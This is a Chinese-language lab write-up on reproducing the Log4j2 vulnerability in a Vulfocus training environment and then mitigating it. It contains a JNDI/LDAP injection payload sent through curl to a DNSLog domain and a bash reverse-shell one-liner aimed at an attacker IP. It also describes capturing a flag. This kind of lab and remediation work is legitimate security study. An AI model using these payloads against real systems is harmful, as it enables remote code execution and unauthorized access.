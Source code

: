 
# Log4j2 漏洞复现及修复

## 1. 进入 Vulfocus 平台

通过克隆资源中的仓库地址来搭建平台，启动 Vulfocus 环境，并找到 Log4j2 漏洞，启动该漏洞。

![启动 Vulfocus](./启动vulfocus.png)

## 2. 进入漏洞环境测试

成功启动漏洞后，获取漏洞的入口靶标并访问该地址，进入当前环境进行测试。

![Log4j 漏洞环境启动](./log4j漏洞环境启动.png)

## 3. 获取容器信息并访问

通过执行 `docker ps` 指令来获取容器的名称和 ID，进入该容器的环境，并将路径下的 `demo.jar` 文件拷贝到宿主机。

![容器名称](./容器名称.png)
![进入容器环境](./进入容器环境.png)
![克隆 .jar 包到宿主机](./克隆.jar包到宿主机.png)

## 4. 反编译与漏洞分析

使用反编译工具分析 `demo.jar` 文件中的源代码，找到潜在的漏洞部分代码。

![漏洞源码](./反编译源码.png)

### 漏洞代码分析

漏洞代码位于以下部分：

```java
logger.error("{}", payload);
logger.info("{}", payload);
```

该段代码容易导致 Log4j2 漏洞的触发。

## 5. 漏洞验证

### 手动验证漏洞

通过使用 DNSLog（dnslog.cn）生成随机域名来手动测试漏洞，并使用 `curl` 命令触发一次域名解析请求。

![获取 dns](./获取dns.png)
![触发域名解析请求](./触发域名解析请求.png)
![请求记录](./请求记录.png)

### 错误分析

在运行以下命令时，出现报错：

```bash
curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'
```

经询问 AI 大模型后得知，漏洞入口靶标的端口不支持 POST 方法。于是修改命令并成功运行。

![报错分析](./报错分析.png)

## 6. 漏洞利用效果评估

### 反弹 Shell

通过在靶机中独立测试有效负载，成功连接攻击机并反弹 Shell，验证漏洞成功利用。

![反弹 shell](./反弹shell.png)

### 监听与获取 Flag

通过监听靶机的 `/tmp` 目录，成功获取包含漏洞 Flag 的文件。

![漏洞 flag](./漏洞flag.png)

### 反弹窗口连接报错分析

运行 `bash -i >& /dev/tcp/192.168.164.4/7777 0>&1` 时，出现了报错。进一步分析发现，bash 解释器的环境不支持该语法，导致了语法错误。

![负载测试报错分析](./负载测试报错分析.png)
![靶机测试有效负载报错](./靶机测试有效负载报错.png)

### 解决方案

将命令改为显式执行 `bash`，即可成功反弹 Shell。

## 7. 漏洞缓解并验证

修改漏洞环境变量后，重新解析 DNS 请求，验证更新的记录未生效，确认漏洞得到缓解。

![修改环境变量](./修改环境变量.png)
![验证变量修改](./验证变量修改.png)
![无解析请求](./无解析请求.png)

## 8. 漏洞修复与验证

对漏洞进行修复后，进行验证，确保漏洞已被彻底修复。
